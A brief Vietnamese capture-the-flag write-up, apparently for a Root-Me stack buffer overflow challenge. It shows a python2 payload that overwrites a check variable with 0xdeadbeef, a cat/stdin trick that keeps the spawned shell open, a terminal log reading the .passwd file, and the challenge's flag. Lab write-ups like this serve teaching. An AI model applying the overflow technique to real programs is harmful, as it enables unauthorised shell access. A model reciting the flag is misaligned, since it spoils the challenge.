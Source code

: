 # Source

[Source](./ch13.c)
[Binary](./ch13)

# Solve

- Ở thử thách này, cần ghi đè biến __check__ bằng cách truyền giá trị vào __buf__ để khiến giá trị của `__check__ = "0xdeadbeaf"`
- Payload là: `python2 -c "print 'A'*40 + '\xef\xbe\xad\xde'" | ./ch13`

```bash
app-systeme-ch13@challenge02:~$ python2 -c "print 'A'*40 + '\xef\xbe\xad\xde'" | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
app-systeme-ch13@challenge02:~$
```
- Tuy nhiên không thể kiểm soát shell trong file này, phải truyền vào cách khác. Đây là payload để có thể kiểm soát được shell bash:
`cat <(python2 -c "print 'A'*40 + '\xef\xbe\xad\xde\x00\x00'") - |./ch13`

```bash
app-systeme-ch13@challenge02:~$ cat <(python2 -c "print 'A'*40 + '\xef\xbe\xad\xde\x00\x00'") - |./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
cat .passwd
1w4ntm0r3pr0np1s
```
- Vậy Flag là `1w4ntm0r3pr0np1s`

### 🚩Flag: `1w4ntm0r3pr0np1s`